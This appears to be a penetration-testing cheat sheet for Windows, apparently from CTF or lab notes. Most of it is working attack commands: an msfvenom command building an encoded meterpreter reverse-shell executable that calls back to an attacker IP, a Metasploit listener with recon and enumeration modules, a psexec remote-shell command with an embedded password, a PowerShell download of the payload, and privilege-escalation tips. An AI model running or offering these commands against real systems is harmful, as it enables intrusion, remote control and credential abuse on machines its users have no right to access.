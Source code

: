 # Windows

Generate the reverse tcp client

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 \
    --encoder x86/shikata_ga_nai LHOST=10.9.0.21 LPORT=4446 -f exe -o hey.exe
```

Metasploit reverse tcp listener

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.9.0.21
set lport 4446
exploit
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_applications
```

Get a remote shell

```
python psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.232.180 cmd.exe
```

download file

```powershell
powershell -Command "(New-Object Net.WebClient).DownloadFile('http://10.9.0.21:8000/hey.exe', 'hey.exe')"
powershell -Command "Invoke-WebRequest http://www.example.com/package.zip -OutFile package.zip"
```

Various tips and tricks

```
echo %username%
```

C:\Windows\Temp is often world writable

List privileges

```
whoami /priv
```

if SeImpersonate privilege enabled, try PrintSpoofer
